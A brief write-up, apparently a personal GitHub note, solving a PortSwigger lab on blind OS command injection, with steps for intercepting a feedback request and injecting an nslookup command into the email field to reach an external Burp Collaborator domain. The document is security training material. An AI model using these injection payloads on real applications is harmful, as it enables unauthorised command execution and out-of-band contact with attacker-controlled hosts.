






# Blind OS command injection with out-of-band interaction

## This lab contains a blind OS [command injection](https://portswigger.net/web-security/os-command-injection) vulnerability in the feedback function.

## The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response.

## it is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

## To solve the lab, exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator.

---

### step 1

click on submit feedback and intercept the request

step 2

add `email=x||nslookup+x.BURP-COLLABORATOR-SUBDOMAIN||`

burp collaborator => `ne5hvt6bna30e2cdp7h3vkix3o9fx5lu.oastify.com`

final payload 
`email=x||nslookup+x.ne5hvt6bna30e2cdp7h3vkix3o9fx5lu.oastify.com||`

step 3 

`email=test1%40email.com||nslookup+test1%40email.com.ne5hvt6bna30e2cdp7h3vkix3o9fx5lu.oastify.com||`
replace email with payload and forward request
go to  burp collaborator you will see some DNS if you can't see click on poll now and lab will solved

